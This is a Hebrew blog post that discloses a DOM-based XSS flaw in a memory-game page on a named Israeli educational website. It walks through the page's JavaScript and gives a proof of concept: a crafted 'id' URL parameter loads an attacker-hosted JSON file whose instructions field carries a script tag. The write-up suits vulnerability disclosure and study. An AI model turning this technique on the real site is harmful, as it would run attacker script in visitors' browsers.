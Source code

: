 ```yaml
---
layout: post
title: DOM based xss באתר "lnet"
tags: [web, xss]
---
```

כאשר נכנסים לדף

```
http://edu1.lnet.org.il/games/memory/game.html?id=passoverHabbits
```

נוכל להבחין בבקשה הנשלחת אל הקובץ

```
http://edu1.lnet.org.il/games/memory/passoverHabbits.txt
```

<!--more-->

קובץ זה מכיל את נתוני המשחק, על מנת לבדוק איך פעולה זו מתבצעת נכנס לקוד המקור של הדף ונוכל לראות את קטע הקוד הבא:

```js
var id;
var jsonFileObject;

function readFile(idValue) {

    var file = idValue + ".txt";

    $.ajax({
        url: file,
        success: function (data) {
            jsonFileObject = JSON.parse(data);
            $('#tutorial-memorygame').quizyMemoryGame();
        }
    });
}

function getParameterByName(name) {
    name = name.replace(/[\[]/, "\\[").replace(/[\]]/, "\\]");
    var regex = new RegExp("[\\?&]" + name + "=([^&#]*)"),
        results = regex.exec(location.search);
    return results == null ? "" : decodeURIComponent(results[1].replace(/\+/g, " "));
}

id = getParameterByName('id');

if (id != "") {
    readFile(id);
}
```

ניתן לראות כי על ידי שימוש ב `getParameterByName` מקבלים את מזהה המשחק ולאחר מכן מתבצעת קריאה לפעולה `readFile` המקבלת את מזהה המשחק, הפעולה יוצרת נתיב לקובץ על ידי חיבור מזהה המשחק עם הסיומת `txt` ולאחר מכן מבצעת בקשת `get` לקבלת תוכן הקובץ, תוכן הקובץ מעובד ל`json` ואז מאותחל המשחק על ידי שימוש ב `quizyMemoryGame`

כאשר `quizyMemoryGame` נקרא, קטע הקוד הבא מורץ, ניתן לראות שנעשה שימוש בתוכן הקובץ בקריאה ל `initOpts.instructions` המכיל טקסט, הטקסט מוכנס לתגית ה `span` כ `html` (מה שיאפשר לנו להריץ קוד `js` בהמשך)

```
http://edu1.lnet.org.il/games/memory/js/jquery.quizymemorygame.js
```

```js
var objJson = jsonFileObject.settings;
var objData = jsonFileObject.data;

initOpts = objJson;


var instructions = $('#instructions');
instructions.find('.ins-text').html(initOpts.instructions);
```
לאחר שהבנו שניתן ליצור נתיב לקובץ בעצמנו נוכל להכניס קובץ משחק דומה בעל הוראות המכילות קוד `html`, לדוגמא:

```json
{
    "settings": 
    {
        "instructions": "<script>alert(1)</script>"
    }
}
```

נשמור את הקובץ המשחק תחת השם `game.txt`, נריץ שרת `http` פשוט ונוכל לראות את הבעיה.
נפתח את הקישור:

```
http://edu1.lnet.org.il/games/memory/game.html?id=http://localhost/game
```

![](https://i.imgur.com/TUl4C7E.png)
